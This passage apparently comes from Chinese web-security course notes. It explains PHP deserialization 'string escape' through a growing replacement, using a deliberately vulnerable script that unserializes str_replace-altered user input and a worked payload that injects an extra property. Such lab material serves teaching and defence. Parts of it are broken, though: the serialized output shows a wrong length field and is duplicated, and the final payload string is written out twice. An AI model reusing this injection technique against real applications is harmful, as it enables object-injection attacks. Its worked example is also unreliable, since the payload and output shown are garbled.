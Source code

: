 ## 13.12 字符串逃逸原理-增多

字符串逃逸原理：是在进行序列化操作之后，对敏感字符进行替换`（原字符比替换后的字符少）`。从而造成了字符串增多逃逸

### 字符串逃逸例题-增多

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
class A{
    public $v1 = 'ls';
    public $v2 = '123';

    public function __construct($arga,$argc){
        $this->v1 = $arga;
        $this->v2 = $argc;
    }
}
$a = $_GET['v1'];
$b = $_GET['v2'];
$data =  serialize(new A($a,$b));
$data = str_replace("ls","pwd",$data);

var_dump(unserialize($data));
```

### payload 构造思路

通过使用`"`闭合前面的字符串，再使用`;}`闭合整条序列化字符串。在中间直接构造自己需要的属性和属性值从而达到逃逸的结果

```php
构造目标：s:2:"v3";s:3:"123
构造闭合：";s:2:"v3";s:3:"123";}
长度计算：";s:2:"v3";s:3:"123";}  = 22

问题：22个字符串构造需要使用多少个`ls`呢？
	方程计算：2x + 22 = 3x
				  x = 22	

最后序列化结果：
O:1:"A":2:{s:2:"v1";s:2:"lslslslslslslslslslslslslslslslslslslslslsls";s:2:"v3";s:3:"123";}";s:2:"v2";s:3:"123";}
O:1:"A":2:{s:2:"v1";s:2:"lslslslslslslslslslslslslslslslslslslslslsls";s:2:"v3";s:3:"123";}";s:2:"v2";s:3:"123";}

payload：v1=lslslslslslslslslslslslslslslslslslslslslsls";s:2:"v3";s:3:"123";}lslslslslslslslslslslslslslslslslslslslslsls";s:2:"v3";s:3:"123";}
payload：v2=随意
```

### 效果
